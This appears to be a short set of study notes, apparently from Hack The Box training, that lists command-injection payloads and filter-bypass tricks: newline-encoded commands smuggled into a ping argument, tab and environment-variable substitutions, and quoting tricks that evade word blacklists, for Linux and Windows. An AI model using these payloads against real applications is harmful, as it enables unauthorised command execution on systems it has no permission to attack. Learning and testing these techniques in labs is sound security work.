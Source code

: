 ### Use new-line instead of ; or &
#### Example: 
```bash
ping 0.0.0.0%0als
```
The `%0a` is an encodded `\n` that will execute the ls command afterwards

<hr>

### Use tabs instead of spaces (bypass spaces blacklist)
```bash
ping 0.0.0.0;ls  -l
```

<hr>

### Bypass some characters
#### Shift the character
```bash
echo $(tr '!-}' '"-~'<<<[) # this will result in \
```
#### Extract the character from a env variable
```bash
$(echo	${PATH:0:1})
```
#### words blacklist
```
ca$(echo "t") # cat
ca$@t # cat
ca"t" # cat
```

<hr>

### Cool commands
```bash
print # instead of echo
printenv # print all env variables
```

<hr>

### WINDOWS ?

```cmd
C:\htb> echo %HOMEPATH:~6,-11%  # will result in \
PS C:\htb> $env:HOMEPATH[0] # will result in \
PS C:\htb> $env:PROGRAMFILES[10]
```

